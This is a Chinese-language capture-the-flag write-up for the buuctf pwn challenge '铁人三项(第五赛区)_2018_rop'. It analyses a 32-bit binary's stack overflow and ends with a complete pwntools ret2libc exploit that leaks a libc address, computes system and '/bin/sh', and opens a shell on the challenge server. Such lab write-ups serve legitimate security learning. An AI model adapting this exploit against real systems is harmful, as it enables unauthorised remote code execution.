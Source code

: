 ```yaml
---
author: 
  name: Zephyr
title: 铁人三项(第五赛区)_2018_rop
date: 2022-3-22 19:20:03
permalink: /pages/2e1547494524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# 铁人三项(第五赛区)_2018_rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/铁人三项_第五赛区_2018_rop/2018_rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
```

vulnerable_function函数及函数表如下

![铁人三项_第五赛区_2018_rop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/%E9%93%81%E4%BA%BA%E4%B8%89%E9%A1%B9_%E7%AC%AC%E4%BA%94%E8%B5%9B%E5%8C%BA_2018_rop_1.png)

## 思路分析

1. 目前信息：
   - vulnerable_function函数内明显的栈溢出漏洞
   - No PIE
   - NX 保护开启
   - 无后门函数

2. 思路：
   - 本题是标准的ret2libc，应先泄漏libc及函数地址，再利用泄漏的信息构造payload,执行获取shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/铁人三项_第五赛区_2018_rop/2018_rop'
io = remote('node4.buuoj.cn', 28626)
# io = process(pwnfile)
elf = ELF(pwnfile)
libc_start_main_addr = elf.got['__libc_start_main']
write_addr = elf.plt['write']
vulnerable_function_addr = elf.symbols['vulnerable_function']
padding = 0x88+4
pop_3times_ret = 0x0804855d
payload = flat(['a'*padding, write_addr, pop_3times_ret, 1,libc_start_main_addr, 4, vulnerable_function_addr])
io.sendline(payload)
leak_libc_start_main_addr = u32(io.recv())
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh_addr])
io.sendline(payload)
io.interactive()
```